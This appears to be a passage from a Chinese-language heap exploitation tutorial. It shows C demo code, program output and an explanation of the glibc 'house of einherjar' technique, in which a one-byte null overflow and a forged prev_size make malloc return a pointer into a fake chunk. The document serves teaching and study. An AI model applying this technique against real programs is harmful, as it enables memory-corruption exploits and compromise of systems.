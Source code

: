 ```c
    fprintf(stderr, "We allocate 0xf8 bytes for 'b': %p\n", b);
    fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
    fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
    a[real_a_size] = 0; 
    fprintf(stderr, "b.size: %#lx\n\n", *b_size_ptr);

    size_t fake_size = (size_t)((b-sizeof(size_t)*2) - (uint8_t*)fake_chunk);
    *(size_t*)&a[real_a_size-sizeof(size_t)] = fake_size;
    fprintf(stderr, "We write a fake prev_size to the last %lu bytes of a so that it will consolidate with our fake chunk\n", sizeof(size_t));
    fprintf(stderr, "Our fake prev_size will be %p - %p = %#lx\n\n", b-sizeof(size_t)*2, fake_chunk, fake_size);

    fake_chunk[1] = fake_size;
    fprintf(stderr, "Modify fake chunk's size to reflect b's new prev_size\n");

    fprintf(stderr, "Now we free b and this will consolidate with our fake chunk\n");
    free(b);
    fprintf(stderr, "Our fake chunk size is now %#lx (b.size + fake_prev_size)\n", fake_chunk[1]);

    d = malloc(0x10);
    memset(d, 'A', 0x10);
    fprintf(stderr, "\nNow we can call malloc() and it will begin in our fake chunk: %p\n", d);
}
```
```
$ gcc -g house_of_einherjar.c 
$ ./a.out 
We allocate 0x10 bytes for 'a': 0xb31010

Our fake chunk at 0x7ffdb337b7f0 looks like:
prev_size: 0x80
size: 0x80
fwd: 0x7ffdb337b7f0
bck: 0x7ffdb337b7f0
fwd_nextsize: 0x7ffdb337b7f0
bck_nextsize: 0x7ffdb337b7f0

We allocate 0xf8 bytes for 'b': 0xb31030
b.size: 0x101
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

We write a fake prev_size to the last 8 bytes of a so that it will consolidate with our fake chunk
Our fake prev_size will be 0xb31020 - 0x7ffdb337b7f0 = 0xffff80024d7b5830

Modify fake chunk's size to reflect b's new prev_size
Now we free b and this will consolidate with our fake chunk
Our fake chunk size is now 0xffff80024d7d6811 (b.size + fake_prev_size)

Now we can call malloc() and it will begin in our fake chunk: 0x7ffdb337b800
```
house-of-einherjar 是一种利用 malloc 来返回一个附近地址的任意指针。它要求有一个单字节溢出漏洞，覆盖掉 next chunk 的 size 字段并清除 `PREV_IN_USE` 标志，然后还需要覆盖 prev_size 字段为 fake chunk 的大小。当 next chunk 被释放时，它会发现前一个 chunk 被标记为空闲状态，然后尝试合并堆块。只要我们精心构造一个 fake chunk，让合并后的堆块范围到 fake chunk 处，那下一次 malloc 将返回我们想要的地址。比起前面所讲过的 poison-null-byte ，更加强大，但是要求的条件也更多一点，比如一个堆信息泄漏。

